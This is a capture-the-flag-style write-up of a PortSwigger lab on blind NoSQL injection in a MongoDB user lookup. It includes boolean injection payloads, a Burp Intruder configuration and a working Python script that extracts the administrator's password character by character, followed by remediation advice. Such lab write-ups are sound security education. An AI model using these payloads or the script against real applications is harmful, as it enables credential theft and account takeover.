

# PortSwigger Lab: Exploiting NoSQL injection to extract data

# TAGS: NoSQL Injection, MongoDB, Syntax Injection, Data Extraction, Burp Intruder, Python

Category: NoSQL Injection
Date: October 11, 2026
Day: Sunday
Link: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data
Published: Ready
Status: Done

---

## Intro

In this lab, the user lookup functionality is powered by a MongoDB NoSQL database and is vulnerable to NoSQL injection. I show how I used boolean-based injection to extract the `administrator` password, and I solve it in two ways: with a Burp Intruder attack and with a small Python script.

This write-up covers the reconnaissance, the exploitation steps, the root cause, the real-world impact, and how to prevent it.

---

## Reconnaissance:

#### Lab Description Lookup:

The lab description says that the user lookup functionality is powered by a MongoDB NoSQL database and is vulnerable to NoSQL injection. The objective is to extract the password of the `administrator` user and log in to their account. It also gives a tip: the password only uses lowercase letters.

With Burp running, I logged in using the credentials provided by the lab (`wiener:peter`) and captured the lookup request from the account page:

```http
GET /user/lookup?user=wiener HTTP/2
Host: 0a0e00a9034d924388fb60ad00a900f6.web-security-academy.net
Cookie: session=zKdowCB3YWkTexFKFg9hUoDG80yDgjFs
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Not A(Brand";v="99", "Chromium";v="154"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0e00a9034d924388fb60ad00a900f6.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

The `user` parameter is placed inside a back-end MongoDB query, so I sent this request to Repeater to test it by hand.

---

## Exploitation:

#### Step 1: Confirm the injection

I submitted a single quote (`'`) in the `user` parameter:

```http
GET /user/lookup?user=wiener' HTTP/2
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN

{
  "message": "There was an error getting user details"
}
```

That error suggested the input was not sanitized. I then submitted a valid JavaScript expression, `wiener'+'`, which returned the `wiener` account again, confirming that the value is evaluated as code.

Next I tested boolean conditions:

- False: `wiener' && '1'=='2` → no user is returned.
- True: `wiener' && '1'=='1` → the `wiener` account is returned.

```http
False: {"message": "Could not find user"}
True:  {"username": "wiener", "email": "wiener@normal-user.net", "role": "user"}
```

#### Step 2: Find the password length

To find the length of the administrator's password, I used the `this.password.length` property:

```http
GET /user/lookup?user=administrator' && this.password.length < 30 || 'a'=='b HTTP/2
```

The condition `< 30` was true, so the `administrator` account was returned. I lowered the number until it flipped: with `< 9` the condition was still true, but with `< 8` it was false. That means the password is **8 characters long**.

> Note on the payload shape: `administrator' && <condition> || 'a'=='b` breaks out of the string with `'`, injects the condition, and the trailing `|| 'a'=='b` both closes the original quote and guarantees a "false floor" when the condition is not met.

#### Step 3: Extract the password

Now I needed to extract each character of the password. Both approaches below do the same thing: test `this.password[i] == '<letter>'` for each position and each lowercase letter, and detect success by checking whether the response contains the administrator's data (true) or `Could not find user` (false).

##### Approach A: Burp Intruder (Cluster bomb)

I sent the lookup request to Intruder and replaced the `user` value with a payload that has two positions, `§0§` for the character index and `§a§` for the letter:

```http
GET /user/lookup?user=administrator%27%20%26%26%20this.password[§0§]%3D%3D%27§a§%27%20%7C%7C%20%27a%27%3D%3D%27b HTTP/2
```

> The value is URL-encoded because the spaces and the `&` would otherwise break the request: the spaces break the HTTP request line and `&&` splits the query string. Only the two payload markers (`§0§` and `§a§`) are left unencoded.

> **Gotcha (this cost me the most time):** if the value is not encoded, the server only sees something like `administrator'` and returns `{"message": "There was an error getting user details"}` instead of the user's data — a clear sign the payload was malformed. To confirm, open a result row and check the **Request** tab: it must show `%26%26`, not a raw `&&`. Note that `+` and `%20` are both valid for a space, and `%3D`/`%3d` for `=`.

Attack settings:

- **Attack type:** Cluster bomb;
- **Payload position 1** (`§0§`): numbers `0` to `7`;
- **Payload position 2** (`§a§`): lowercase letters `a` to `z`.

To read the result, I compared the response sizes: the **false** conditions return the short message `Could not find user`, while the **true** condition returns the larger JSON with the user's data. Sorting by `Payload 1` and then by `Length` (or adding a **Grep – Match** for `administrator`) makes the eight "winning" rows easy to spot.



Sorting by `Length` (or adding a Grep – Match for `administrator`) leaves only the eight "winning" requests, one per position. Reading the letters by `Payload 1` (0 → 7) gives the password: `fqbmjntg`.

##### Approach B: A small Python script

The same idea can be automated. The script below sends the payloads, decides true/false by looking for `"administrator"` in the response, finds the length and then each character:

```python
import urllib.request, urllib.parse, string, sys

H = "0a0e00a9034d924388fb60ad00a900f6.web-security-academy.net"
COOKIE = "session=zKdowCB3YWkTexFKFg9hUoDG80yDgjFs"

def lookup(payload):
    # URL-encode the whole value so ' and & don't break the query string
    url = "https://%s/user/lookup?user=%s" % (H, urllib.parse.quote(payload, safe=''))
    req = urllib.request.Request(url, headers={"Cookie": COOKIE, "User-Agent": "Mozilla/5.0"})
    try:
        with urllib.request.urlopen(req, timeout=12) as r:
            return r.read().decode("utf-8", "replace")
    except Exception as e:
        return "ERR:%s" % e

def is_true(payload):
    # the "true" answer returns the administrator's data
    return '"administrator"' in lookup(payload)

# 1) find the password length
length = None
for n in range(1, 41):
    if is_true("administrator' && this.password.length < %d || 'a'=='b" % n):
        length = n - 1  # '< n' is true only when n > length
        break
print("length =", length)

# 2) extract each character (lowercase only, per the lab tip)
pwd = ""
for i in range(length):
    for c in string.ascii_lowercase:
        if is_true("administrator' && this.password[%d]=='%s' || 'a'=='b" % (i, c)):
            pwd += c
            break
    print("pos %d -> %s   (%s)" % (i, c, pwd))

print("PASSWORD =", pwd)
```

Output:

```text
length = 8
pos 0 -> f   (f)
pos 1 -> q   (fq)
pos 2 -> b   (fqb)
pos 3 -> m   (fqbm)
pos 4 -> j   (fqbmj)
pos 5 -> n   (fqbmjn)
pos 6 -> t   (fqbmjnt)
pos 7 -> g   (fqbmjntg)
PASSWORD = fqbmjntg
```

#### Step 4: Log in as the administrator

With the password extracted, I logged in as the `administrator` user:

```http
POST /login HTTP/2
Host: 0a0e00a9034d924388fb60ad00a900f6.web-security-academy.net
Cookie: session=zKdowCB3YWkTexFKFg9hUoDG80yDgjFs
Content-Type: application/x-www-form-urlencoded

csrf=<TOKEN>&username=administrator&password=fqbmjntg
```

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=9BxRq6gX9ROmGId7eqTyk5BhOxDAsa7n; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

The redirect to `/my-account?id=administrator` confirmed the login and the lab was solved.

---

## Root Cause

The application builds a MongoDB query by concatenating the user-controlled `user` value into a JavaScript expression (a `$where` clause) without sanitizing it. Because the value is evaluated as code, I can break out of the string and inject conditions such as `this.password.length < N` and `this.password[i] == '<letter>'`. Each true/false result changes the response, which turns a blind injection into a way to read data character by character.

---

## Impact

An attacker can extract arbitrary data from the database — here, a privileged user's password, which leads to full account takeover. NoSQL injection can also be used to bypass authentication, enumerate data, and, depending on the database account's privileges, reach sensitive collections. The damage is the same as SQL injection: the query logic is under attacker control.

---

## Remediation

To prevent this issue, applications should:

- Never concatenate user input into a query; use parameterized queries or an ORM/driver that separates data from code;
- Avoid `$where` and JavaScript execution in queries whenever possible;
- Validate and sanitize input, and enforce the expected type;
- Apply least privilege to the database account so injection cannot reach sensitive collections;
- Store passwords hashed, so even a leak of a field cannot be used directly to authenticate.

---

## Key Takeaways

1. `this.password.length` and `this.password[i]` make it possible to read data through true/false responses.
2. The trailing `|| 'a'=='b` closes the quote and provides a "false floor".
3. The same injection can be exploited manually (Intruder Cluster bomb) or automated with a short script.
4. When reading Intruder results, compare response sizes / grep for the true marker.
5. The fix is the same principle as SQL injection: keep data out of the query logic.

---

## References

- [PortSwigger — NoSQL injection](https://portswigger.net/web-security/nosql-injection)
- [PortSwigger — Exploiting NoSQL injection to extract data (lab)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)
- [PortSwigger — Exploiting syntax injection to extract data](https://portswigger.net/web-security/nosql-injection#exploiting-syntax-injection-to-extract-data)
- [OWASP — NoSQL Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/NoSQL_Security_Cheat_Sheet.html)

---

## Disclaimer

This write-up was created for educational purposes only. All testing was performed in an authorized PortSwigger Web Security Academy laboratory environment. Never test systems without explicit authorization.

This article was written with the assistance of artificial intelligence tools for text review, structure, and grammar correction. However, the entire testing process, technical analysis, vulnerability exploitation, and conclusions presented are the sole responsibility of the author and are based on tests performed in a controlled environment provided by the PortSwigger Web Security Academy.
